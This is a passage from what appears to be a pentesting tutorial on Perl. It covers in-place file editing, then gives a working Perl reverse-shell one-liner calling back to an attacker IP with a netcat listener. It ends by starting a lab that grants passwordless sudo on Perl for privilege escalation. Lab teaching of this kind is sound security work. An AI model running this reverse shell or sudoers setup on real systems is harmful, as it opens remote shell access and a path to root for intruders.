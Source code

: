 ![](https://i2.wp.com/1.bp.blogspot.com/-_Trv9t_v_C4/Xd1LI8AYfDI/AAAAAAAAhoI/KmAVwlBWz5kir4BP6GdZmXdgySLReonFQCLcBGAsYHQ/s1600/7.png?w=687&ssl=1)

The most common use of “-p” together with the “-i” option also helps to provide “in-place editing”. Which means that instead of printing to the screen, all the output spawned by our one-liner will be written back to the same file from where it was taken. Here we are using this to replace a word with another word.

```
perl -i -p -E 's/IGNITE/Egnite/' Infosec.txt  
head -7 Infosec.txt
```

On framing above command you Perl will replace the word “IGNITE” with “Egnite” of file Infosec.txt

![](https://i0.wp.com/1.bp.blogspot.com/-FPnAvu8TfiM/Xd1LJ2PJ36I/AAAAAAAAhoM/mtvIX4XSXcwS3I3JVPkor4bJBSnPrDHoQCLcBGAsYHQ/s1600/8.png?w=687&ssl=1)

**Perl in reverse shell:** We all knows that reverse shell is a type of shell in which the target machine interconnects to the attacking machine and the attacking machine has a listener port on which it receives the connection.

So, here we are using Perl command which will send back a reverse shell to a listening attacker that will open remote network access.

```
perl -e 'use Socket;$i="192.168.29.157";$p=1234;socket(S,PF\_INET,SOCK\_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr\_in($p,inet\_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'
```

![](https://i2.wp.com/1.bp.blogspot.com/-0feCFltpDZA/Xd1LKe-qW4I/AAAAAAAAhoQ/zRf0cIAFaqckIYot6iDaFrrpNDlFCf_IQCLcBGAsYHQ/s1600/9.png?w=687&ssl=1)

On framing above command run nc -lvp 1234 on the attacker box to receive the shell.

```
nc -lvp 1234  
id  
whoami
```

![](https://i0.wp.com/1.bp.blogspot.com/-R5WlZlPNcwk/Xd1LE8tlIOI/AAAAAAAAhnc/dZChiVsMAp43sGWgZZ6X71oP3b0mbD4xQCLcBGAsYHQ/s1600/10.png?w=687&ssl=1)

### **Abusing Perl**

### **Sudo Rights Lab setups for Privilege Escalation**

In above all, we have covered the main objectives that a Perl can perform but now we will move ahead in the task of privilege escalation. So to grab this first, we have to set up our lab of Perl command with administrative rights. After that, we will check for the Perl command that what impression it has after getting sudo rights and how we can use it more for privilege escalation.

From the below image It can be clearly understood I have created a local user (demo) who own all sudo rights as root and can achieve all task as admin.

To add sudo right open etc/sudoers file and type following as user Privilege specification.

```
demo All=(ALL) NOPASSWD: /usr/bin/perl
```
